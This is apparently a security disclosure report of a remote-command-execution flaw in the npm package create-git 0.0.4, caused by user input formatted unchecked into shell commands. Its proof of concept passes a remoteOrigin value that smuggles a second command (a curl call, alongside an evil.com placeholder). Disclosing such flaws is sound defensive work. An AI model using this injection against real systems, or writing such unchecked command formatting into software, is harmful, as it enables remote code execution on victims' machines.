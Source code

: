 ## Details:
I would like to report a `RCE` issue in the `create-git` module.
It allows to `execute remote commands on the victim's PC`

## Module
* **module name:** `create-git`
* **version:** `0.0.4`
* **npm page:** `https://www.npmjs.com/package/create-git`

## Module Description
> A generator to initialize a project with git.

## Vulnerability Description
The issue arises because some `user supplied` inputs are formatted inside commands executed lately without any check. Issue arises on this line: https://github.com/wesleytodd/create-git/blob/master/index.js#L85

## POC

```js
// poc.js
const createGit = require('create-git')
 
createGit({
    ignoreExisting: true,
    initialCommitMessage: 'test',
    remoteOrigin: 'http://evil.com || curl "http://localhost/RCE"',
    ignoreTemplates: ['Node.gitignore']
  })
```

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

## Impact
`RCE` via `insecure command formatting` on `create-git`
